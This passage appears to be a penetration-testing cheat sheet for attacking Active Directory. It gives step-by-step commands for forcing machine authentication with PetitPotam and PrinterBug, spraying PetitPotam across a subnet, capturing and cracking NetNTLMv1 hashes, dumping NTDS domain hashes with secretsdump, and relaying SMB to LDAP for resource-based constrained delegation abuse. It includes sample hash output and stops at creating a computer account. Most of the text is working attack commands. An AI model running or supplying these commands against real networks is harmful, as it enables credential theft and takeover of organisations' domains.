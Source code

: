 Run Responder: `sudo responder -I [interface] --lm --disable-ess`

Run [PetitPotam](https://github.com/topotam/PetitPotam): `python3 PetitPotam.py [listener IP address] [target IP address (Domain Controller)] -d [domain] -u [username] -p [password]`

You can also spray PetitPotam across a network address using:

```
for i in `seq 1 254`; do python3 PetitPotam.py 192.168.56.118 "192.168.56.$i" -d [domain] -u [username] -p [password]; done
```

If you capture a NetNTLMv1 hash without SSP like this:

```
[SMB] NTLMv1 Client   : 192.168.56.12
[SMB] NTLMv1 Username : ESSOS\MEEREEN$
[SMB] NTLMv1 Hash     : MEEREEN$::ESSOS:AF9034E5E4FBA5C95E3E9B515731A6B754167236C0FF8EA9:AF9034E5E4FBA5C95E3E9B515731A6B754167236C0FF8EA9:1122334455667788
```

... copy the section after "ESSOS" above, go to [Crack.sh](https://crack.sh/get-cracking/) and enter `NTHASH:AF9034E5E4FBA5C95E3E9B515731A6B754167236C0FF8EA9` (replace with your hash), enter your email address, and click the button. You should receive an email within five minutes containing a Token and a Key. The value in the Key is an NTLM hash that you can use to pass the hash. If you got the machine hash for a domain controller, dump the AD NTDS hashes using:

```
impacket-secretsdump -hashes :[NT hash] '[domain]/[DC Netbios name]$@[DC IP'
```

Example: 

```
impacket-secretsdump -hashes :c606dd063a5b6db1081635d675f8bcfe 'ESSOS/MEEREEN$@192.168.56.12'
```

### Testing all other systems

This will get you local admin access to an affected system using the Kerberos ticket of the domain Administrator or other privileged account.

Start an SMB > LDAP relay targeting the DC. 

```
impacket-ntlmrelayx -i -t ldap://[DC FQDN] -smb2support -ip [interface IP] --remove-mic
```

Coerce machine auth using the PrinterBug (or [PetitPotam](https://github.com/topotam/PetitPotam)). Test against domain controllers first.

```
python ./printerbug-kerb.py -k --no-pass [target FQDN] [interface IP]
```

If you see the connection from the desktop to the DC succeed in impacket-ntlmrelayx, continue on to perform RBCD abuse, otherwise stop here.

We need an owned computer account. By default, AD users can create up to 10 computer accounts.

```
impacket-addcomputer -computer-name 'desktop$' -computer-pass 'EvilPa$$123' -dc-host [DC FQDN] [domain]/[username]
```
